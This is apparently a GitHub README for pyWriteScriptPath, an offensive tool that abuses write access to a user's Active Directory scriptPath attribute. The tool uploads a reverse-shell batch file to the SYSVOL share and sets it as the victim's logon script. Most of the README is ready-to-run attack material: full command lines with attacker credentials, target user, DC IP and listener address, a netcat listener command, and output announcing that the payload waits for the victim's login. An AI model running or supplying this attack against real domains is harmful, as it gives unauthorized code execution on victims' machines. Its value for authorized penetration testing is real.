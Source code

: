 # 🛠️ WriteScriptPath Abuse Tool

In Active Directory, the **scriptPath** attribute specifies a logon script that runs when a user logs in. This tool helps you upload a script to the SYSVOL share and assign it to a user’s **scriptPath** attribute, enabling automated script execution on user login — useful for administration, automation, or testing.

---

##  What Is WriteScriptPath?

In Active Directory, the `scriptPath` attribute defines a logon script that runs when a user logs in. If an attacker has **Write access to this attribute** on another user account, they can abuse it to:

- Upload a malicious script to the `\\<domain>\SYSVOL\<domain>\scripts\` share
- Set that script as the target user's logon script
- Gain **code execution** when the victim logs in

---

## ⚙️ Requirements

- Python 3.x
- `ldap3` and `impacket` Python libraries
- Valid domain user credentials with **WriteScriptPath** privilege on the target user
- Access to the Domain Controller (DC)
- A listener to catch the reverse shell (e.g. `nc -lvnp 4444`)


##  Installation

```bash
https://github.com/furious-05/pyWriteScriptPath.git
cd writescriptpath-exploit
pip install -r requirements.txt
````

> **Note**: `requirements.txt` should include:
>
> ```
> ldap3
> impacket
> ```


##  Usage

```bash
python3 pyWriteScriptPath.py \
  --domain furious \
  --username jake \
  --password 'Pass1234' \
  --target john \
  --dc-ip 192.168.1.10 \
  --listener-ip 192.168.1.100 \
  --listener-port 4444
```

###  Arguments Explained

| Argument          | Description                                         |
| ----------------- | --------------------------------------------------- |
| `--domain`        | The Active Directory domain (e.g., `furious`)       |
| `--username`      | Your (attacker’s) domain username                   |
| `--password`      | The attacker's password                             |
| `--target`        | The username of the target account                  |
| `--dc-ip`         | IP address of the Domain Controller                 |
| `--listener-ip`   | Your IP (where reverse shell should connect)        |
| `--listener-port` | Port on which your listener is running (e.g., 4444) |


## ⚙️ What Happens Behind the Scenes

1.Uploads the specified script file to the SYSVOL scripts share.
 
   ```
   \\<domain>\SYSVOL\<domain>\scripts\rev.bat
   ```
2.Sets the target user’s scriptPath attribute to point to the uploaded script.

3.The script runs on the user’s next login.


##  Example

```bash
nc -lvnp 4444  # Start your listener

python3 pyWriteScriptPath.py \
  --domain furious \
  --username jake \
  --password 'Pass1234' \
  --target john \
  --dc-ip 192.168.1.10 \
  --listener-ip 192.168.1.100 \
  --listener-port 4444
```


##  Output

```
[+] Connected to LDAP
[+] Payload uploaded to SYSVOL as rev.bat
[+] scriptPath updated for user john
[+] Done. Wait for the user to log in to trigger the payload.
```


---

## 👨‍💻 Author

Munib Nawaz
Pentester & Offensive Security Researcher

---

